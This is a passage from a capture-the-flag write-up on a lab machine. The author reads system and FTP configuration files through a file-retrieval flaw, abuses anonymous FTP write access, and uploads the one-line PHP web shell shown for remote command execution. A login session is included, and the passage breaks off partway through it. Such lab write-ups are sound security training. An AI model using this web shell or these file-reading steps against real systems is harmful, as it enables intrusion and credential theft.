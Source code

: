```flag{tH!5_!5_N0_Pl@C3_t0_D!3}```

> Then I realize that similar tasks I played on "HackTheBox" where I used SQLi for the flag. I tried SQL Injection, but somehow it did not work.


<kbd>![alt text](test/13.png)</kbd>



I have also looked for other vulnerabilities and within a few minutes I found "File Retrieval".



<kbd>![alt text](test/14.png)</kbd>


I searched for sensitive system files and directories like passwd and shadow files, home user's directory files, bash history files, etc. But, not anything was much useful. Then, I retrieved the FTP configuration file and got my 2nd flag.



```"flag{W3_@R3_!n_+H3_3NDG@M3_n0W!}"```


<kbd>![alt text](test/15.png)</kbd>




## Third Flag



After reading the entire configuration file, I found "write_enable=YES" was enabled for anonymous users. So It's time to upload the shell and get RCE. 


<kbd>![alt text](test/16.png)</kbd>


The website was written in PHP. So, I could add and run the PHP shell smoothly. One liner famous PHP shell code ```"<?php system($_GET['cmd']);?>"``` I used to exploit the system. I uploaded a shell file on the server that way I can able to run system commands.


```

root@muzzy:~# FTP 10.90.137.137
Connected to 10.90.137.137.
220 (vsFTPd 3.0.3)
Name (10.90.137.137: root): anonymous
331 Please specify the password.
Password:
230 Login successful.
The remote system type is UNIX.
Using binary mode to transfer files.
